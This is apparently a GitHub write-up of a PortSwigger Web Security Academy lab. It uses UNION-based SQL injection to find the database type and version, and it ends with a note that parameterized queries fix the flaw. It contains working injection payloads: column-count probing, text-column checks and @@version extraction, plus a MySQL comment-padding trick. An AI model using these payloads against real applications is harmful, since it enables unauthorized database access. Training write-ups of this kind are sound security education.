




# SQL Injection Attack — Querying the Database Type and Version

**Source:** PortSwigger Web Security Academy
**Difficulty:** Practitioner
**Category:** SQL Injection

## The goal

Before extracting application data, it helps to know what database engine is running, since the exact SQL syntax (comment style, concatenation, version queries) differs across MySQL, Oracle, and PostgreSQL.

## Database-specific version queries

| Database | Query |
|---|---|
| MySQL / Microsoft SQL Server | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

## A MySQL-specific quirk

MySQL requires a **space after `--`** for it to be recognized as a comment. If the application strips trailing whitespace from input (common), the space gets silently removed, leaving `--` with nothing after it, MySQL doesn't recognize this as a comment at all, and the leftover query text causes a 500 Internal Server Error.

**Fix:** add a harmless padding character after the space, so the space is no longer the last character and survives trimming:

```sql
‘ UNION SELECT null, null-- x
```

Any character works as padding (`x`, `okay`, anything), its only job is to stop the space from being stripped.

## Payloads

**Step 1 — confirm column count:**
```sql
‘ UNION SELECT null, null-- x
```
Ran without error, confirming 2 columns.

**Step 2 — confirm both columns accept text:**
```sql
‘ UNION SELECT ‘a’, ‘a’-- x
```
Both rendered successfully, confirming both columns are text-compatible.

**Step 3 — retrieve the database version:**
```sql
‘ UNION SELECT null, @@version-- x
```

**Resulting query:**
```sql
SELECT * FROM products WHERE category = '' UNION SELECT null, @@version-- x' AND released = 1
```

This returned the database's version string directly on the page.

## Result

`8.0.42-0ubuntu0.20.04.1` — confirming MySQL 8.0.42 running on Ubuntu.

## Why this matters

Knowing the exact database engine and version tells an attacker which syntax variants to use for every subsequent step (comment style, concatenation operator, system tables), and can also reveal whether the version has known, unpatched vulnerabilities.

## Proof

<details>
<summary>Click to view screenshots</summary>






</details>

## Fix

Parameterized queries. If the injection point is closed, there's no way to run `@@version` or any other arbitrary query against the database.
